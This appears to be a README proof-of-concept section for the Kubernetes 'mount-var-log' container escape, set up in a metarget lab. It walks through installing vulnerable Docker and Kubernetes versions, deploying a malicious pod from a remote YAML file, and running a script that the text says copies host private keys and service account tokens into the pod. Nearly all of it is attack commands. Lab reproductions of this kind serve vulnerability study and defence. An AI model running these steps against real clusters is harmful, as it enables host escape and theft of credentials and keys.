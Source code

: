## Proof of Concept

To perform the Proof of Concept, please follow the below steps:

1. Basic environment setup for Docker and K8+. Execute the following commands inside the metarget folder.<br/>
`./metarget gadget install docker --version 18.03.1` <br/>
`./metarget gadget install k8s --version 1.16.5 --domestic`
2. Prepare the vulnerable environment using the following command. <br/>
`./metarget cnv install mount-var-log`

3. Prepare the malicious pod using the following command. <br/>
`kubectl create -f https://raw.githubusercontent.com/haseeb62/CVEs/main/Mount-var-log/POC/escaper.yml`
4. Exec into the pod. The pod contains built-in exploit code which will read any files from the host.<br/>
`kubectl exec -it mount-var-log -n metarget bash`
5. Execute the `find_sensitive_files.py` script which downloads private key files and kubernetes service account tokens from the host.<br/>
`python find_sensitive_files.py`
6. To verify the files are downloaded in the pod, check the files in the following directories.<br/>
`cd /root/exploit/host_files/tokens`<br/>
`cd /root/exploit/host_files/private_keys`


